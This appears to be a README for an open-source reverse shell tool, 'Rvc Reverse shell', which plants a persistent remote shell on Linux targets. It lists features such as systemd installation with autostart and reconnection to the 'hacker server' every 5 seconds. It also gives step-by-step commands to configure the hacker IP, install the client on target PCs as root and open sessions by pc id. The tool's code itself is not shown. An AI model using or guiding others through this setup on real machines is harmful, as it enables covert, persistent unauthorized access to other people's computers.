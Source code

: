 # Rvc Reverse shell

A script for creating a reverse shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the RSH vulnerability.

![demo image](demo.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Handles ip address and port number things by itself. Automatically gets the hacker ip address
9) A connection is recognized by target pc id which we would assign, Just to mention the pc id.
10) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side (acting as reverse Client)
1) python (2 or 3)
2) stty (for setting terminal window)
3) systemctl service support (for installation and autostart)

Client side:: Hacker side (acting as reverse Server)
1) python (2 or 3)
2) stty (for getting hacker terminal sizes)
3) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

1) On hacker terminal run
```
./rvc-rsh configure
```
to set the reverse shell to connect to the hacker ip address 
2) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (pc id)
or
./rvc-rsh expose (pc id)
```
Generally in computer labs connected with LAN the computers are labelled as pc0 pc1 pc2 etc..
this pc id refers to same kind of number through which you will identify which shell to recieve connection from.
If in case you have multiple rsh clients waiting for you on network.
In this script a base port (1234) is assigned and communication for a pc id x will occur through port no (1234 + x)
to distinguish between multiple rsh sessions on same network if they exist.
Just remember for now the script supports only one rsh client install per target pc if you want to.
3) on hacker terminal to open a client bearing some (pc id) run
```
./rvc-rsh open (pc id)
```
This will establish a TCP connection between the hacker as a server shell and the site as the client shell.
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

